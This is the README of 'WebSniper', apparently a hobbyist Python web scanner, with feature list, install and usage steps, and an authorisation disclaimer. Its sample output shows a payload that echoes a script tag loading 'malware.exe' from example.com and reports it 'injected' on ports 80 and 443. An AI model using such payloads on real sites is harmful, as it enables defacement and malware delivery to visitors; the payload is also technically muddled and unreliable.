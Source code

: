 # WebSniper
WebSniper is a powerful web security scanning tool that can help you identify potential vulnerabilities in your web applications. With its advanced scanning capabilities, WebSniper can quickly and accurately detect open ports, SQL injection vulnerabilities, and other security weaknesses. 

# I have created more advanced branches of this tool , will be uploading as websniper1.o.py

## Features
- Scans for open ports on web servers
- Injects malicious payloads into web applications to test for vulnerabilities
- Detects SQL injection vulnerabilities
- Provides detailed reports of scanning results
- easy-to-use command-line interface
## Result
```bash
[+] Scanning for open ports...
[+] Open ports: [80, 443]
[+] Creating payload...
[+] Payload created: {'command': "echo '<html><body><script src='http://example.com/malware.exe'></script></body></html>'"}
[+] Injecting payload...
Payload injected successfully on port 80
Payload injected successfully on port 443
[+] Scanning for SQL injection vulnerabilities...
[-] No SQL injection vulnerabilities found.

The script found two open ports (80 and 443) and successfully injected the payload on both of them. No SQL injection vulnerabilities were found.
```
## Installation
* To install WebSniper, simply clone the repository and run the websniper.py script:
Clone the repository:
```bash
 git clone https://github.com/cypherdavy/websniper.git 
```
* Navigate to the repository directory: 
```bash
cd websniper
```

Make the script executable:
```bash
 chmod +x websniper.py
```

## websniper1.o Installation

Clone the repository:
```bash
 git clone https://github.com/cypherdavy/websniper.git
```
* Navigate to the repository directory: 
```bash
cd websniper
```

Make the script executable:
```bash
 chmod +x websniper1.o.py
```

## Usage

To use WebSniper, simply run the websniper.py script followed by the target URL:
```bash
./websniper.py <target-url>

```
WebSniper will first perform a quick scan of the website and output a captivating message based on the scan results. Then, the script will continue to search for vulnerabilities, including open ports and SQL injection vulnerabilities.

## websniper1.o Usage 

```bash
./websniper1.o.py <target-url>

```


## Disclaimer
Please note that unauthorized scanning or attacking of websites is illegal and unethical. Always obtain proper authorization before performing any security testing.

## License

WebSniper is released under the MIT License. See LICENSE for details.

## Contributing
Contributions are welcome! If you'd like to contribute to WebSniper, please submit a pull request.

